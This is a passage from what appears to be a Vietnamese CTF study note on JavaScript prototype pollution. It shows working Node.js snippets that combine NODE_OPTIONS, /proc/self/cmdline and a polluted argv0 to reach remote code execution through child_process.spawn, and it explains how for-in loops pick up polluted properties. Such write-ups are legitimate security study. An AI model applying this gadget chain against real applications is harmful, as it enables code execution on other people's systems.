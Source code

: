 ```js 
```
![image](https://hackmd.io/_uploads/HJzVkCZdgg.png)
Kết hợp điều này với NODE_OPTIONS và /proc/self/cmdline ta có payload như sau  :+1: 
```js 
const { spawn } = require("child_process");

const ls = spawn("node", ["rce.js"], {
    argv0: "console.log(123);//",
    env: {
        ...process.env, // inherit parent env
        NODE_OPTIONS: "--require /proc/self/cmdline"
    },
    stdio: "inherit"  // pipe output directly to parent terminal
});
```
![image](https://hackmd.io/_uploads/S1hLy0bOxg.png)
- Cuối cùng kết hợp với prototype pollution thì ta sẽ dễ dàng có được rce . 
```js 
const { spawn } = require("child_process");

Object.prototype.env = {}; // dummy object
Object.prototype.env.NODE_OPTIONS = "--require /proc/self/cmdline"; // trigger loadJ
Object.prototype.argv0 = `require("child_process").execSync("id > pwn");//`;

spawn("node");
```
![image](https://hackmd.io/_uploads/SkbvVAZugg.png)
# Một vài điểm thú vị về for in : 
Xét ví dụ sau : 

```js 
scripts = {
    "pace": "https://cdn.jsdelivr.net/npm/pace-js@latest/pace.min.js",
    "main": "/main.js",
}

Object.prototype.polluted = "WTF"
console.log("Just log it out : ", scripts)

for (let script in scripts) {
    console.log("[" + script + "] => " + scripts[script])
}
```
Kết quả sẽ có chứa polluted không ? Câu trả lời là có   : 
![image](https://hackmd.io/_uploads/H1jr8KJ_gl.png)
Đọc tí document về tính chất của for in ta có thể thấy rằng https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Enumerability_and_ownership_of_properties 
![image](https://hackmd.io/_uploads/ry2vUFJuxl.png)
Nó sẽ chấp nhận luôn cả những enumerable là inherited từ Object prototype ! Bài này mình thấy ở malta ctf khá hay  (mặc dù mình k giải ra:( )
# So sánh \__proto__ và constructor.prototype? 
